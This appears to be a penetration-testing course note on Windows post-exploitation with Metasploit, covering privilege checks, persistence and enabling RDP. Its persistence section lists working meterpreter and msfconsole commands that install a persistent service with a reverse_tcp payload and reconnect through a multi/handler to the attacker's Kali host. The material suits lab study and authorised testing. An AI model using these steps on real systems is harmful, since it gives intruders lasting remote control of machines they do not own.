 ```bash
meterpreter > exploit # we get another meterpreter session.
meterpreter > getuid # NT AUTHORITY.
```
{% endcode %}



## <mark style="color:red;">Establishing Persistence On Windows</mark>

**Establishing Persistence On Windows**

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we use the rejetto to gain initiaal access.
meterpreter > sysinfo
meterpreter > getuid # Administrator user.
meterpreter > ctrl+z # background the session.


# Persistence require elevated privileges
msf6 > search platform:windows persistence
msf6 > use exploit/windows/local/persistence_service # Allow to establish a reliable persistence on the target system.
msf6 > set payload windows/meterpreter/reverse_tcp # it uses the 32bit (x86).
msf6 > set SESSION 1
exploit

sessions -K # kill all sessions.
# To get the session back, use multi/handler and set the same PAYLOAD, LHOST and, LPORT options as you did when configuring the persistence
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST $kaliIP
run
```
{% endcode %}



## <mark style="color:red;">Enabling RDP</mark>

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default.
* RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on Windows target and consequently utilize RDP to remotely access to the target system.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

